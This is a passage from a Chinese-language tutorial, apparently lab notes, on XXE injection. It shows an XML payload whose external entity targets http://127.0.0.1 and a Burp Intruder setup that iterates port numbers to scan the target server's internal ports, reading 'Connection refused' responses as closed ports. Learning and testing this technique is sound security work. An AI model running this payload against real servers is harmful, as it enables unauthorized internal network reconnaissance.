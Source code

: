 > 若关闭则显示 `Connection refused`
>
> 开启则每种服务反馈的信息不同

http:// 协议漏洞验证

```
http://hello.com
```

## 5 利用 BurpStuite 对目标服务器进行端口扫描

开启拦截，在 HackBar 提交端口扫描 payload

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE hello [
<!ELEMENT hello (nb,xxe)>
<!ELEMENT nb	(#PCDATA)>
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">
]>
<hello>
    <xxe>&xxe;</xxe>
    <nb>666</nb>
</hello>
```

将截取的请求包发送到 `Intruder` ，清除 `payload` 位置

选中端口号添加 `payload` 位置

```
http://127.0.0.1:§80§
```

配置 `payload`

`payload` 类型选择 `数值` 

![payload 类型选择 数值](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/payload%20%E7%B1%BB%E5%9E%8B%E9%80%89%E6%8B%A9%20%E6%95%B0%E5%80%BC.png)

选择端口扫描范围

![选择端口扫描范围](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E9%80%89%E6%8B%A9%E7%AB%AF%E5%8F%A3%E6%89%AB%E6%8F%8F%E8%8C%83%E5%9B%B4.png)

取消编码

![取消编码](./../../../../../images/XML%20External%20Entity%20(XXE)%20Processing/%E5%8F%96%E6%B6%88%E7%BC%96%E7%A0%81.png)

检索含有 `Connection refused` 的响应包

> 若有 `Connection refused` ，则端口未开放
